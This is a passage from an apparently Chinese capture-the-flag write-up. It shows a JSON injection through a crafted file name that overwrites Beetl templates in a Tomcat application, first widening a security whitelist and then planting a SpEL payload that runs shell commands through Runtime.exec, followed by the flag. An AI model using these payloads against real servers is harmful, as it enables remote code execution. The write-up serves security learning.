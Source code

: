 思路很明确：通过构造恶意的文件名打一个`JSON`注入攻击`parseObject`覆盖`/usr/local/tomcat/webapps/ROOT/WEB-INF/classes/templates/test.btl`，第一次文件写入调用`test`方法覆盖白名单多放点包路径。

```bash
${@nese.elephantcms.common.WhiteListNativeSecurityManager.test('org.springframework,java.beans,venom.elephantcms')}
```

第二次文件写入覆盖`upload.btl`打`RCE`即可。

```bash
${@java.beans.Beans.instantiate(null,parameter.a).parseExpression(parameter.b).getValue()}

/upload?a=org.springframework.expression.spel.standard.SpelExpressionParser&b=new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('{command}').getInputStream()).next()
```

不过还有个坑点就是第二步覆盖的模板不能是`test.btl`了，可能是缓存的原因导致即便写入第二次的`payload`访问模板还是会执行第一次的`payload`。

梭之：

![1708172558206](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1708172558206.png)

删减了这么多代码还是降了不少难度，并且这里只考了`JSON`注入的一个利用，同名属性覆盖没有考。如果以`RWCTF`的题目难度分类标准的话顶多算`baby`吧:(

#### flag

`flag{oh_m3_uedit0r_an3_maybe_y0u_can_f1nd_s0me_0day}`